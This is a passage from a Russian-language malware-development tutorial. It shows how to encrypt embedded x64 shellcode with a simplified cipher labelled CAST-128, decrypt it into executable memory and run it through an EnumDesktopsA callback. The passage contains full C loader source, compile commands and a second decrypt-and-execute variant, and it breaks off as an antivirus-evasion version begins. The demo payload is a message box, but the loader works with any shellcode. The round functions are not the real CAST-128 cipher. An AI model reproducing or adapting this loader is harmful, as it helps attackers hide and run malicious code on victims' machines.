\newpage
\subsection{94. исследование вредоносного ПО и криптографии - часть 3 (31): Шифрование полезной нагрузки с помощью CAST-128. Простой пример на C.}

الرَّحِيمِ الرَّحْمَٰنِ للَّهِ بِسْمِ 

{width="80%"}     

Этот пост является результатом моего собственного исследования использования блочного шифра *CAST-128* в разработке вредоносного ПО. Как обычно, исследуя различные криптоалгоритмы, я решил проверить, что будет, если использовать этот метод для шифрования/дешифрования полезной нагрузки.    

### CAST-128

Метод шифрования *CAST-128* - это криптографическая система, напоминающая DES и работающая на основе сети подстановок и перестановок (SPN). Она продемонстрировала высокую устойчивость к дифференциальному, линейному и атаке на связанных ключах.      

`CAST-128` - это шифр Фейстеля, состоящий из `12` или `16` раундов. Он работает с `64-bit` блоками и поддерживает ключи размером до `128-bit`. Шифр использует операции сдвига для защиты от линейных и дифференциальных атак. Раундовая функция `CAST-128` включает комбинацию операций `XOR`, сложения и вычитания (по модулю `2**32`). Кроме того, в шифре используются три различных варианта раундовой функции.    

### практический пример

Прежде всего, нам нужен ключ: это `128-bit` ключ:    

```cpp
uint32_t key[4] = {0x01234567, 0x89abcdef, 0xfedcba98, 0x76543210};
```

Этот `128-bit` ключ (`key[4]`) инициализируется четырьмя `32-bit`ными целыми числами. Этот ключ будет использоваться в процессах шифрования и дешифрования `CAST-128`.

Затем нам нужны раундовые функции `CAST-128`:     

```cpp
void f1(uint32_t *d, uint32_t k) {
  uint32_t I = *d ^ k;
  uint32_t Ia = (I >> 16) & 0xFFFF;
  uint32_t Ib = I & 0xFFFF;
  uint32_t f = ((Ia + Ib) & 0xFFFF); // ensure no overflow
  *d = (*d + f) & 0xFFFFFFFF;
}

void f2(uint32_t *d, uint32_t k) {
  uint32_t I = *d ^ k;
  uint32_t Ia = (I >> 16) & 0xFFFF;
  uint32_t Ib = I & 0xFFFF;
  uint32_t f = ((Ia + Ib + 1) & 0xFFFF); // avoid division by zero
  *d = (*d ^ f) & 0xFFFFFFFF;
}

void f3(uint32_t *d, uint32_t k) {
  uint32_t I = *d ^ k;
  uint32_t Ia = (I >> 16) & 0xFFFF;
  uint32_t Ib = I & 0xFFFF;
  uint32_t f = ((Ia - Ib) & 0xFFFF); // ensure no overflow
  *d = (*d ^ f) & 0xFFFFFFFF;
}
```

Функции `f1`, `f2` и `f3`: в моем случае это упрощенные версии раундовых функций, используемых в `CAST-128`. Каждая функция принимает указатель на `32-bit`ное слово (`d`) и `32-bit` подключ (`k`). Функции выполняют побитовые и арифметические операции для изменения значения `d`.     

Следующим шагом является функция `cast_key_schedule`, которая подготавливает подключи для каждого раунда шифрования или дешифрования. Она инициализирует массив подключей (`subkeys[ROUNDS][4]`) на основе основного ключа:     

```cpp
void cast_key_schedule(uint32_t* key, uint32_t subkeys[ROUNDS][4]) {
  for (int i = 0; i < ROUNDS; i++) {
    subkeys[i][0] = key[0];
    subkeys[i][1] = key[1];
    subkeys[i][2] = key[2];
    subkeys[i][3] = key[3];
  }
}
```

Далее следует логика шифрования `CAST-128`:

```cpp
void cast_encrypt(uint32_t* block, uint32_t subkeys[ROUNDS][4]) {
  uint32_t left = block[0];
  uint32_t right = block[1];

  for (int i = 0; i < ROUNDS; i++) {
    uint32_t temp = right;
    switch (i % 3) {
      case 0:
        f1(&right, subkeys[i][0]);
        break;
      case 1:
        f2(&right, subkeys[i][1]);
        break;
      case 2:
        f3(&right, subkeys[i][2]);
        break;
    }
    right ^= left;
    left = temp;
  }

  block[0] = right;
  block[1] = left;
}
```

Логика проста, функция `cast_encrypt` шифрует блок данных с помощью алгоритма `CAST-128`. Он работает с парой `32-bit` слов (`left` и `right`). Для каждого раунда применяется одна из функций раунда (`f1`, `f2` или `f3`), а результаты используются для изменения блока.   

Затем функция `cast_decrypt` расшифровывает блок данных. Она работает аналогично функции `cast_encrypt`, но обрабатывает раунды в обратном порядке:

```cpp
void cast_decrypt(uint32_t* block, uint32_t subkeys[ROUNDS][4]) {
  uint32_t left = block[0];
  uint32_t right = block[1];

  for (int i = ROUNDS - 1; i >= 0; i--) {
    uint32_t temp = right;
    switch (i % 3) {
      case 0:
        f1(&right, subkeys[i][0]);
        break;
      case 1:
        f2(&right, subkeys[i][1]);
        break;
      case 2:
        f3(&right, subkeys[i][2]);
        break;
    }
    right ^= left;
    left = temp;
  }

  block[0] = right;
  block[1] = left;
}
```

Основная логика - это функции для шифрования и дешифрования шеллкода:    

```cpp
void cast_encrypt_shellcode(unsigned char* shellcode, int shellcode_len, 
uint32_t subkeys[ROUNDS][4]) {
  for (int i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
    cast_encrypt((uint32_t*)(shellcode + i * BLOCK_SIZE), subkeys);
  }
}

void cast_decrypt_shellcode(unsigned char* shellcode, int shellcode_len, 
uint32_t subkeys[ROUNDS][4]) {
  for (int i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
    cast_decrypt((uint32_t*)(shellcode + i * BLOCK_SIZE), subkeys);
  }
}
```

Как вы можете видеть, они обрабатывают шеллкод блок за блоком (`8`-байт за раз). Обратите внимание, что если длина шеллкода не кратна размеру блока, то она дополняется (`0x90`) перед шифрованием и соответствующим образом расшифровывается.

Наконец, нам нужно запустить полезную нагрузку:  

```cpp
int main() {
  unsigned char my_payload[] = 
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

  int my_payload_len = sizeof(my_payload);
  unsigned char padded[my_payload_len];
  memcpy(padded, my_payload, my_payload_len);

  uint32_t subkeys[ROUNDS][4];
  cast_key_schedule(key, subkeys);

  printf("original shellcode: ");
  for (int i = 0; i < my_payload_len; i++) {
    printf("%02x ", my_payload[i]);
  }
  printf("\n\n");

  cast_encrypt_shellcode(padded, my_payload_len, subkeys);

  printf("encrypted shellcode: ");
  for (int i = 0; i < my_payload_len; i++) {
    printf("%02x ", padded[i]);
  }
  printf("\n\n");

  cast_decrypt_shellcode(padded, my_payload_len, subkeys);

  printf("decrypted shellcode: ");
  for (int i = 0; i < my_payload_len; i++) {
    printf("%02x ", padded[i]);
  }
  printf("\n\n");

  LPVOID mem = VirtualAlloc(NULL, my_payload_len, MEM_COMMIT, 
  PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, padded, my_payload_len);
  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, (LPARAM)
  NULL);
  return 0;
}
```

В функции `main` определяется полезная нагрузка (шеллкод) и создается расписание ключей. Затем шеллкод шифруется и расшифровывается с помощью алгоритма `CAST-128`.

Как обычно, я использовал полезную нагрузку `meow-meow` messagebox:   

```cpp
unsigned char my_payload[] = 
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";
```

и расшифрованная полезная нагрузка выполняется с помощью функции `EnumDesktopsA`.

Полный исходный код выглядит так (`hack.c`):

```cpp
/*
* hack.c
* encrypt/decrypt payload 
* via CAST-128 algorithm
* author: @cocomelonc
* https://cocomelonc.github.io/malware/2024/07/29/malware-cryptography-31.html
*/
#include <stdio.h>
#include <stdint.h>
#include <string.h>
#include <stdlib.h>
#include <windows.h>

#define BLOCK_SIZE 8
#define ROUNDS 16
#define KEY_SIZE 16

uint32_t key[4] = {0x01234567, 0x89abcdef, 0xfedcba98, 0x76543210};

// CAST-128 round functions (simplified for demonstration)
void f1(uint32_t *d, uint32_t k) {
  uint32_t I = *d ^ k;
  uint32_t Ia = (I >> 16) & 0xFFFF;
  uint32_t Ib = I & 0xFFFF;
  uint32_t f = ((Ia + Ib) & 0xFFFF); // ensure no overflow
  *d = (*d + f) & 0xFFFFFFFF;
}

void f2(uint32_t *d, uint32_t k) {
  uint32_t I = *d ^ k;
  uint32_t Ia = (I >> 16) & 0xFFFF;
  uint32_t Ib = I & 0xFFFF;
  uint32_t f = ((Ia + Ib + 1) & 0xFFFF); // avoid division by zero
  *d = (*d ^ f) & 0xFFFFFFFF;
}

void f3(uint32_t *d, uint32_t k) {
  uint32_t I = *d ^ k;
  uint32_t Ia = (I >> 16) & 0xFFFF;
  uint32_t Ib = I & 0xFFFF;
  uint32_t f = ((Ia - Ib) & 0xFFFF); // ensure no overflow
  *d = (*d ^ f) & 0xFFFFFFFF;
}

// key schedule for CAST-128
void cast_key_schedule(uint32_t* key, uint32_t subkeys[ROUNDS][4]) {
  for (int i = 0; i < ROUNDS; i++) {
    subkeys[i][0] = key[0];
    subkeys[i][1] = key[1];
    subkeys[i][2] = key[2];
    subkeys[i][3] = key[3];
  }
}

// CAST-128 encryption
void cast_encrypt(uint32_t* block, uint32_t subkeys[ROUNDS][4]) {
  uint32_t left = block[0];
  uint32_t right = block[1];

  for (int i = 0; i < ROUNDS; i++) {
    uint32_t temp = right;
    switch (i % 3) {
      case 0:
        f1(&right, subkeys[i][0]);
        break;
      case 1:
        f2(&right, subkeys[i][1]);
        break;
      case 2:
        f3(&right, subkeys[i][2]);
        break;
    }
    right ^= left;
    left = temp;
  }

  block[0] = right;
  block[1] = left;
}

// CAST-128 decryption
void cast_decrypt(uint32_t* block, uint32_t subkeys[ROUNDS][4]) {
  uint32_t left = block[0];
  uint32_t right = block[1];

  for (int i = ROUNDS - 1; i >= 0; i--) {
    uint32_t temp = right;
    switch (i % 3) {
      case 0:
        f1(&right, subkeys[i][0]);
        break;
      case 1:
        f2(&right, subkeys[i][1]);
        break;
      case 2:
        f3(&right, subkeys[i][2]);
        break;
    }
    right ^= left;
    left = temp;
  }

  block[0] = right;
  block[1] = left;
}

void cast_encrypt_shellcode(unsigned char* shellcode, int shellcode_len, 
uint32_t subkeys[ROUNDS][4]) {
  for (int i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
    cast_encrypt((uint32_t*)(shellcode + i * BLOCK_SIZE), subkeys);
  }
}

void cast_decrypt_shellcode(unsigned char* shellcode, int shellcode_len, 
uint32_t subkeys[ROUNDS][4]) {
  for (int i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
    cast_decrypt((uint32_t*)(shellcode + i * BLOCK_SIZE), subkeys);
  }
}

int main() {
  unsigned char my_payload[] =
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

  int my_payload_len = sizeof(my_payload);
  unsigned char padded[my_payload_len];
  memcpy(padded, my_payload, my_payload_len);

  uint32_t subkeys[ROUNDS][4];
  cast_key_schedule(key, subkeys);

  printf("original shellcode: ");
  for (int i = 0; i < my_payload_len; i++) {
    printf("%02x ", my_payload[i]);
  }
  printf("\n\n");

  cast_encrypt_shellcode(padded, my_payload_len, subkeys);

  printf("encrypted shellcode: ");
  for (int i = 0; i < my_payload_len; i++) {
    printf("%02x ", padded[i]);
  }
  printf("\n\n");

  cast_decrypt_shellcode(padded, my_payload_len, subkeys);

  printf("decrypted shellcode: ");
  for (int i = 0; i < my_payload_len; i++) {
    printf("%02x ", padded[i]);
  }
  printf("\n\n");

  LPVOID mem = VirtualAlloc(NULL, my_payload_len, MEM_COMMIT, 
  PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, padded, my_payload_len);
  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, (LPARAM)
  NULL);
  return 0;
}
```

Таким образом, этот пример демонстрирует, как использовать алгоритм шифрования `CAST-128` для шифрования и дешифрования полезной нагрузки. Для проверки корректности добавлена логика вывода данных.      

### демонстрация

Давайте посмотрим, как все работает на практике. Компилируем код (на моей `linux`-машине):    

```bash
x86_64-w64-mingw32-gcc -O2 hack.c -o hack.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ -static-libgcc
```

{width="80%"}      

Затем запускаем его на машине жертвы (`windows 11 x64` в моем случае):    

```powershell
.\hack.exe
```

{width="80%"}      

Как можно видеть, все работает идеально! =^..^=     

Рассчитаем энтропию по Шеннону:    

```bash
python3 entropy.py -f hack.exe
```

{width="80%"}      

Наша полезная нагрузка находится в `.text` секции.    

### практический пример 2

Обновляем нашу простую логику, просто заменяя весь процесс дешифрования и запуска полезной нагрузки на дешифрование и выполнение shellcode следующим образом:     

```cpp
void cast_decrypt_and_execute_shellcode(unsigned char* shellcode, int 
shellcode_len, uint32_t subkeys[ROUNDS][4]) {
  LPVOID mem_block = NULL;
  // allocate a single block for execution
  mem_block = VirtualAlloc(NULL, shellcode_len, MEM_COMMIT, 
  PAGE_EXECUTE_READWRITE);
  if (mem_block == NULL) {
    printf("memory allocation failed\n");
    exit(1);
  }

  // decrypt the entire shellcode into the allocated memory
  for (int i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
    uint32_t decrypted_block[2];
    memcpy(decrypted_block, shellcode + i * BLOCK_SIZE, BLOCK_SIZE);
    cast_decrypt(decrypted_block, subkeys);
    memcpy((char *)mem_block + i * BLOCK_SIZE, decrypted_block, BLOCK_SIZE);
  }

  // execute the shellcode using EnumDesktopsA
  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem_block, 
  (LPARAM)NULL); 
}
```

### демонстрация 2

Давайте посмотрим, как работает вторая версия. Компилируем код (на моей `linux`-машине):    

```bash
x86_64-w64-mingw32-gcc -O2 hack2.c -o hack2.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc
```

{width="80%"}      

Затем запускаем эту версию на `windows 11 x64`:    

```powershell
.\hack2.exe
```

{width="80%"}      

Эта версия также работает идеально.     

### практический пример 3

Обновляем наше основное "вредоносное" ПО: добавляем несколько техник обхода, таких как [обфускация вызовов функций](https://cocomelonc.github.io/tutorial/2021/09/06/simple-malware-av-evasion-2.html), [хеширование имен функций](https://cocomelonc.github.io/tutorial/2022/03/22/simple-av-evasion-5.html), а также реализуем [GetModuleHandle](https://cocomelonc.github.io/malware/2023/04/08/malware-av-evasion-15.html) и [GetProcAddress](https://cocomelonc.github.io/malware/2023/04/16/malware-av-evasion-16.html).      

Эта версия выглядит так - `hack3.c`:    

```cpp
/*
* hack3.c
* encrypt/decrypt payload 
* via CAST-128 algorithm
* author: @cocomelonc
